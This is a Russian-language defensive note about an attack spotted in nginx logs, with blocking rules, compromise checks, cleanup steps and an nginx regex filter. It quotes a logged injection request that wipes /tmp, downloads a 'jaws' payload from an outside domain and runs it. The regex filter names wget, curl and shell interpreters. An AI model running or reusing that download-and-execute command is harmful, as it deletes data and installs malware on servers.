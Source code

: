 # Атаки на nginx

#### Попытка выполнить команды через URL

В логах [[Nginx]]:

```
GET /shell?cd+/tmp;rm+-rf+*;wget+scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1
```

#### Что пытается сделать злоумышленник?

1. **`cd /tmp`**
    - Переходит во временную директорию `/tmp`, где обычно есть права на запись.

2. **`rm -rf *`**
    - **Удаляет все файлы** в `/tmp` (возможно, чтобы скрыть следы предыдущих атак).
        
3. **`wget scamanje.stresserit.pro/jaws`**
    - Скачивает вредоносный файл `jaws` с подозрительного домена `scamanje.stresserit.pro`.
        
4. **`sh /tmp/jaws`**
    - Запускает скачанный скрипт, который, скорее всего:
        - Устанавливает бэкдор.
        - Ворует данные.
        - Превращает сервер в часть ботнета.

###### **Признаки атаки**

- **Подозрительный URL**: `/shell?` (явно указывает на попытку RCE — выполнения команд на сервере).
- **Использование `wget` + `sh`**: классическая схема загрузки и запуска вредоносного ПО.
- **Домен `stresserit.pro`**: похож на сервисы для DDoS-атак (например, Stresser IP Booter).

###### **Что делать срочно?**

1) Заблокируйте IP злоумышленника

в [[Nginx]]:

```
location / {
    deny 94.25.187.245;  # Подставьте реальный IP из лога
    allow all;
}
```

Через `iptables` (если Linux):

```bash
iptables -A INPUT -s 94.25.187.245 -j DROP
```

2) Проверьте сервер на взлом

Найдите подозрительные файлы в `/tmp`:

```bash
ls -la /tmp/jaws
```

В идеале вывод такой: `ls: cannot access '/tmp/jaws': No such file or directory`

Проверьте запущенные процессы:

```bash
ps aux | grep jaws
```

В идеале вывод примерно такой: `root 202856 0.0 0.2 6480 2284 pts/0 S+ 13:18 0:00 grep --color=auto jaws` (это означает, что в списке процессов обнаружен только сам grep, ищущий jaws.)

Ищите неожиданные cron-задачи:

```
crontab -l
grep -r "scamanje.stresserit.pro" /etc/
```

В идеале вывод такой: `no crontab for root`
Вторая команда ничего не выводит.

Дополнительно:

Проверить историю команд
```bash
history | grep -E 'wget|curl|sh|bash|jaws'
```


Проверить недавно измененные файлы
```bash
find / -type f -mtime -7 -ls | head -50
```

Проверить сетевые соединения
```bash
netstat -tulnp
ss -tulnp
```

Проверить автозагрузку
```bash
systemctl list-units --type=service --state=running
ls -la /etc/systemd/system/
```

3) Удалите вредоносные файлы

Если найдёте `jaws` или подобное:

```bash
rm -f /tmp/jaws
killall jaws  # Если процесс запущен
```

4) Обновите Nginx и софт

Убедитесь, что нет уязвимостей:

```bash
sudo apt update && sudo apt upgrade nginx
```


###### **Как предотвратить повторные атаки?**

1) Запретите выполнение команд через URL

В Nginx:

```
if ($request_uri ~* "(;|\||\`|>|<|&|wget|curl|sh|bash|python|perl)") {
    return 403;
}
```

2) Ограничьте доступ к `/tmp` и другим критичным папкам

В Nginx:

```
location ~ ^/(tmp|etc|var|root) {
    deny all;
}
```

3) Включите логирование всех подозрительных запросов

В Nginx:

```
location / {
    access_log /var/log/nginx/suspicious.log combined;
}
```

### **Вывод**

- **Это явная попытка взлома** через уязвимость в веб-приложении или Nginx.
- **Срочно проверьте сервер** на наличие бэкдоров.
- **Закройте уязвимости**: обновите софт, настройте WAF, запретите опасные символы в URL.

Если атака уже успешна — рассмотрите **полное восстановление сервера из бэкапа** (после проверки на вирусы).

#hack #attack